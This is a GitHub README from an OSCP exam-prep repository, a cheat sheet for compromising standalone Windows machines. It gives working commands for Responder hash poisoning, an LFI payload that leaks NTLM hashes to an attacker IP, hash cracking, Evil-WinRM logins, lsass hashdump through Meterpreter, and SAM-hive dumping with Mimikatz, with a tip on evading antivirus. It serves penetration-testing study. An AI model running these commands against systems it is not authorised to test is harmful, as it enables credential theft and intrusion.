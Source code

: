 # Windows Resources 
Use this folder for triaging and compromising a standalone Windows box. For domain compromising, see [Active_Directory](https://github.com/Scr1ptK1ddie/OSCPprep/tree/main/ActiveDirectory) folder.   
## Contents 
- [Windows Resources](#windows-resources)
  * [Contents](#contents)
  * [Tools](#tools)
    + [Impacket](#impacket)
    + [Responder (not allowed on the OSCP exam, but a common pen testing tool)](#responder--not-allowed-on-the-oscp-exam--but-a-common-pen-testing-tool-)
    + [Evil-WinRM](#evil-winrm)
    + [Metasploit and Meterpreter](#metasploit-and-meterpreter)

## Tools
### Impacket 
https://github.com/SecureAuthCorp/impacket

    apt install impacket-scripts

Local Locations:

    /usr/share/doc/python3-impacket/examples   
    
### Responder (not allowed on the OSCP exam, but a common pen testing tool)   
Allows you to spoof various services then capture hashes from devices that try to authenticate to those.  
Common use: poison responses during NetNTLM authentication to capture credentials. Might be able to relay the challenge instead of just capturing it (if SMB signing is not enforced). Ref: https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html       
  
Install:   

    git clone https://github.com/lgandx/Responder   
 Usage:   

     sudo responder.py -I eth0   #start on specified interface. Hashes will be captured when a device tries to authenticate to resources on the network.               
    
You might be able to use a LFI vulnerability to request a resource and capture a hash using Responder. Ex - http://site.com/?page=//10.10.14.25/somefile           
Captured hashes will be stored in the logs folder, in a .txt file named for the protcol-hash type- and IP captured from.     
Crack Hashes from responder:     

    john hashes.txt   #John the Ripper will automatically detect the format of hashes collected by Responder.    
    hashcat -m 5500   #NTLMv1 (hashes captured from using a tool like Responder)     
    hashcat -m 5600   #NTLMv2 (hashes captured from using a tool like Responder)   
    
### Evil-WinRM
Access port 5985. Use with a username / password or username / hash. 

    $ evil-winrm -u Administrator -p password -i 10.10.10.10    

### Metasploit and Meterpreter   
Meterpreter shell: need to migrate to lsass process to dump hashes, due to process permissions on Windows.         
    
    meter > migrate -N lsasse.exe       
    meter > hashdump     
    
### Dump Hives and Extract with Mimikatz     
AV products will flag on Mimikatz so only do this if you are sure if won't (otherwise crack the hashes locally).     

    C:\Temp> reg save hklm\sam sam.hive && reg save hklm\system system.hiv     
    C:\Temp> c:\tools\mimikatz\x64\mimikatz.exe "lsadump::sam /sam:sam.hiv /system:system.hiv" "exit"   
    
    username:userid:LANMAN:NTHASH   #hash format when extracted  
